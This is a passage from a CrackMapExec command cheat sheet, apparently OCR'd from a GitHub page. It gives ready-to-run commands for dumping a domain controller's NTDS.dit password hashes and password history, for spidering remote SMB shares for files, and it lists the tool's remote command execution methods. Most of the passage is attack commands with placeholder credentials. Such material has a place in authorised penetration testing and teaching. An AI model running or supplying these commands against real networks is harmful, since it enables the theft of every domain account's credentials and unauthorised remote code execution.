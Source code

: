 ```

## ***Dump the NTDS.dit from target DC using methods from secretsdump.py


```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

## ***Dump the NTDS.dit password history from target DC using methods from secretsdump.py


```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-history
```

## ***Show the pwdLastSet attribute for each NTDS.dit account


```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --ntds-pwdLastSet
```

---

---

# Spidering Shares

Options for spidering shares of remote systems.

## ***Spider the C drive for files with txt in the name (finds both sometxtfile.html and somefile.txt)

Notice the '$' character has to be escaped. (example shown can be used as-is in a kali linux terminal)

```
#~ cme SMB <IP> -u USER -p PASSWORD --spider C\$ --pattern txt
```

---



# Command Execution

Options for executing commands on remote systems.

# Execution Methods

CME has three different command execution methods:

- `wmiexec` executes commands via WMI
- `atexec` executes commands by scheduling a task with windows task scheduler
- `smbexec` executes commands by creating and running a service

```